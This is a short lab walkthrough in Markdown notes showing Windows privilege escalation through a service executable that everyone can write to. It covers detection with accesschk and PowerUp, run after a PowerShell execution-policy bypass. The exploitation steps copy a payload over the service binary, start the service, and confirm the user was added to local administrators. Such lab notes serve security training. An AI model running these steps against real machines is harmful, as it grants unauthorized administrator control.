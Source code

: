 #Windows #PrivEsc #ExecutableFiles #PowerUp #SimpleHTTPServer #sc 

## **Detection**

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
2. Notice that the “Everyone” user group has “`FILE_ALL_ACCESS`” permission on the `filepermservice.exe` file.
- Also make sure to run `PowerUp.ps1` from folder where PowerUp is installed
```
powershell -ep bypass

. .\PowerUp.ps1

Invoke-AllChecks
```

## **Exploitation**

Windows VM

1. Open command prompt and type: `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`  
	1. `x.exe` is from [[13_PrivEsc-Registry(regsvc)]], ensure it is done before this step
2. In command prompt type: `sc start filepermsvc`  
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`